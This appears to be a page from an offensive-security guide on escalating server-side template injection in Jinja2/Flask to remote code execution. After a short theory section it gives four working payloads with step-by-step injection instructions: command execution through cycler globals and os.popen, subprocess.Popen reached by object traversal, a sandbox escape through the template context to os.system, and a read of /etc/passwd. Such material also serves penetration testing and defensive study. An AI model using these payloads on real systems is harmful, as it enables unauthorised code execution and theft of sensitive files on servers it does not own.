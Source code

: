 ```yaml
---
title: Escalate Server-Side Template Injection to Code Execution
description: Learn to escalate SSTI vulnerabilities to achieve remote code execution
  on web servers, utilizing Jinja2 and Python techniques.
keywords:
- SSTI
- remote code execution
- template injection
- Jinja2
- Python exec
- code injection
- sandbox escape
- payload escalation
- RCE
---
```


# Escalate to Code Execution

## Context

This guide aims to demonstrate how to escalate a server-side template injection (SSTI) vulnerability to achieve remote code execution (RCE) on web servers. To effectively exploit these techniques, you should have a sound understanding of template engines, server-side execution, and input validation. Additionally, familiarity with general SSTI attack strategies will greatly enhance your ability to follow along.

## Theory

### Template Engine Execution Contexts and Escalation Paths

Server-side template injection occurs when user input is unsafely evaluated by a server-side template engine. Template engines are designed to render dynamic web content. However, if they are not adequately sandboxed, they can expose functions or objects that may allow code execution. Attackers can escalate from executing mere template logic to arbitrary code execution by systematically chaining accessible functions present in the template environment.

### Common Code Execution Primitives in Template Engines

Code execution primitives refer to functions or objects that enable the execution of system commands or arbitrary code. In the context of SSTI, attackers identify accessible built-in functions, such as Python's `os`, `subprocess`, or `popen`, via template injection. By leveraging these functions, they can use the template syntax to import modules and invoke dangerous functions like `exec`, `eval`, or `system`.

### Sandbox Escape and Payload Escalation

Some template engines implement sandboxes to constrain execution. However, these sandboxes can frequently be bypassed through object traversal or import tricks. Attackers escalate from basic output to code execution by chaining template features like filters, attribute access, and function calls.

## Practice

### Python Jinja2 SSTI to OS Command Execution

- **Payload:**

    ```python
    {{ cycler.__init__.__globals__.os.popen('id').read() }}
    ```

    This payload leverages Jinja2's `cycler` object to access `os.popen` and execute the `id` command.

- **Instructions:**
    - Submit the payload in the vulnerable template input field.
    - Observe the output for command execution results, such as user identity information.

- **Outcome:**

    This results in remote code execution by executing OS commands through a Jinja2 SSTI payload.

### Python Flask/Jinja2 Import-Based RCE

- **Payload:**

    ```python
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('id',shell=True,stdout=-1).communicate()[0] }}
    ```

    This payload utilizes Python object traversal to access `subprocess.Popen` and execute the `id` command.

- **Instructions:**
    - Inject the payload into the vulnerable template field.
    - Check for command output in the rendered response.

- **Outcome:**

    Executes arbitrary OS commands through Python object traversal integrated in an SSTI vulnerability.

### Sandbox Escape via Template Filters

- **Payload:**

    ```python
    {{ self._TemplateReference__context.cycler.__init__.__globals__.os.system('id') }}
    ```

    This payload bypasses template sandbox restrictions using internal context references to reach `os.system`.

- **Instructions:**
    - Place the payload in the SSTI injection point.
    - Look for command execution evidence in the response.

- **Outcome:**

    This technique circumvents the template sandbox to execute system commands.

### File Read via SSTI for Reconnaissance

- **Payload:**

    ```python
    {{ cycler.__init__.__globals__.open('/etc/passwd').read() }}
    ```

    Reads sensitive files using accessible Python built-ins.

- **Instructions:**
    - Inject the payload into the template input.
    - Review the output for file contents.

- **Outcome:**

    Enables reading of arbitrary files on the server through an SSTI vulnerability, resulting in access to sensitive data.

## Tools

- **Burp Suite**
- **curl**
- **wfuzz** 

By carefully injecting these payloads and observing their effects, you can exploit SSTI vulnerabilities to achieve desired outcomes such as remote code execution or information disclosure.